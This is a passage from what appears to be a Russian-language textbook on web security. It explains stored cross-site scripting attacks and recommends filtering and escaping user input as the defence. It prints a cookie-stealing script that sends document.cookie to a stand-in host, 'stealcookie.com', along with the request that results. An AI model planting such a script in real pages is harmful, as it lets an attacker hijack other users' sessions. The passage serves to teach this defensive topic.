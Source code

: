 Пусть текстовое сообщение, помещенное пользователем, содержит текстовый скрипт, помещающий на странице <<изображение>>, расположенное по некоему адресу.
\begin{verbatim}
<script>
  new Image().src = "http://stealcookie.com?c=" +
    encodeURI(document.cookie);
</script>
\end{verbatim}

Тогда браузер всех пользователей, которым показывается сообщение, при загрузке страницы отправит HTTP GET-запрос на получение файла <<изображения>> по адресу
\begin{center} \begin{verbatim}
http://stealcookie.com?auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

В результате злоумышленник получит cookie, используя который он может заходить на веб-сайт под видом пользователя.

Вставка гиперссылок является наиболее частой XSS-атакой. Иногда ссылки кодируются шестнадцатеричными числами вида \texttt{\%NN}, чтобы не вызывать сомнения у пользователя текстом ссылки.



На 2009 г. 80\% обнаруженных уязвимостей веб-сайтов являются XSS-уязвимостями.

Стандартный способ защиты от XSS-атак заключается в фильтрации, замене, экранировании символов и слов введенного текста пользователем: \texttt{<}, \texttt{>}, \texttt{/}, \texttt{\textbackslash}, \texttt{"}, \texttt{'}, \texttt{(}, \texttt{)}, \texttt{script}, \texttt{javascript} и др., а также в обработке кодировок символов.

